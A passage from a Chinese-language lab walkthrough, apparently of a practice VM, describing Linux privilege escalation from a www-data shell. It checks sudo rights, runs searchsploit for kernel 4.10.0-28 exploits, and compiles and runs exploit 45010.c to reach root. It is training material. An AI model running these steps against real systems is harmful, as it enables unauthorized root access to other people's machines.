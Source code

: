 1. 查看权限
    
    ```php
    www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ sudo -l                    
    Matching Defaults entries for www-data on ubuntu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    User www-data may run the following commands on ubuntu:
        (root) NOPASSWD: /home/saket/enc
    //
    www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ uname -a              
    Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
    `www-data` 用户被授予了在 Ubuntu 系统上以 `root` 权限运行 `/home/saket/enc` 命令，而无需输入密码
    
    **`/home/saket/enc`**：这是一个具体的可执行文件或脚本的路径，`www-data` 用户可以以 `root` 身份执行它
    
    但是`enc`发现执行时还是需要输入密码，尝试利用别的
    
2. 尝试内核漏洞
    
    ```php
    searchsploit linux kernel 4.10.0-28 | grep 'Local Privilege'
    Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                 | solaris/local/15962.c
    Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                                         | linux/local/50135.c
    Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation                           | linux/local/47163.c
    Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                | linux/local/41886.c
    Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                         | linux/local/45553.c
    Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                             | linux/local/45010.c
    ```
    
    尝试最后一个 `45010.c` 然后把`45010.c`传到靶机，编译运行,记得给`执行`权限
    
    ```php
    gcc 45010.c -o 45010
    chmod u+x 45010
    ./45010
    ```
    
    ```php
    www-data@ubuntu:/tmp$ ./45010
    //
    uname -a
    Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    //
    whoami 
    root
    ```
    